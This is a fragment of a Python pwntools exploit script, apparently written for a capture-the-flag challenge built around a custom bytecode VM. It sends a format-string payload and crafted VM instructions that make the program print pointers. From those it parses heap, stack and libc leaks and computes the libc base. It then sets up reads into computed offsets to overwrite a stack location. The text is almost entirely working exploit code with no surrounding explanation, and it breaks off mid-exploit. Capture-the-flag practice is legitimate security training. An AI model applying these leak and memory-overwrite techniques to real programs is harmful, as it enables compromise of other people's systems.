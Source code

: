 ```python

payload += b'%p'*40 + b'%p %p %p %p||'

print(len(payload))
p.recvuntil(b'Password!')
p.send(payload)

print(p.recv(10))

payload = b'AAAA' + p32(0x2008)
payload += p32(0x11) + p32(0x0d) + p32(0x0e) + p32(0)
payload += p32(0x11) + p32(0x02) + p32(0) + p32(0)      # make sure not to clobber the stack
payload += p32(0x16) + p32(0) + p32(0x1) + p32(0) 
payload += p32(0x16) + p32(0x1) + p32(0xe021) + p32(0)  # 0xe021 offset
payload += p32(0x15) + p32(0) + p32(0) + p32(0)         # printf(memory+0xe021), containing the "%p"s
payload += p32(0x11) + p32(0x0e) + p32(0x0d) + p32(0)
payload += p32(0x10) + p32(0xd) + p32(0) + p32(0)

payload += p32(0x16) + p32(0) + p32(0) + p32(0) 
payload += p32(0x16) + p32(1) + p32(0xa80) + p32(0)     # 0xa80 is right after the syscall
payload += p32(0x7) + p32(0xa60) + p32(0x0) + p32(0)    # jump to 0xa60
payload += p32(0xd) + p32(0) + p32(0) + p32(0)

print(len(payload))
p.send(payload)

print(p.recvuntil(b'0x'))
heap_leak = int(p.recvuntil(b'0x',drop=True).decode(),16)
print("Heap leak:", hex(heap_leak))
p.recvuntil(b'(nil)')
p.recvuntil(b'(nil)0x10x')
stack_leak = int(p.recvuntil(b' ',drop=True).decode(), 16)
print(hex(stack_leak))
p.recvuntil(b' ')
p.recvuntil(b' ')
libc_leak = int(p.recvuntil(b'||',drop=True).decode(), 16)
libc.address = libc_leak  - 0x29d90 # - 120 -libc.sym['__libc_start_main']
print("LIBC:", hex(libc.address))
p.clean()

reg1_addr = 0x555555570eb8
reg1_offset = reg1_addr - 0x555555570f40

payload = b''
payload += p32(0x16) + p32(0) + p32(0) + p32(0) 
payload += p32(0x16) + p32(1) + p32(reg1_offset & 0xffffffff) + p32(0)
payload += p32(0x16) + p32(2) + p32(256) + p32(0)
payload += p32(0x15) + p32(0) + p32(0x0) + p32(0)   # read(stdin, memory+offset_reg1, 256)
payload += p32(0x15) + p32(0) + p32(0x0) + p32(0)   # read(stdin, memory+stack_offset , 256)

# 0x555555557ac3

pause()

p.send(payload)

pause()

goal_to_write = stack_leak - 0x250
offset = goal_to_write - (heap_leak - 57352)

payload = p64(offset)
```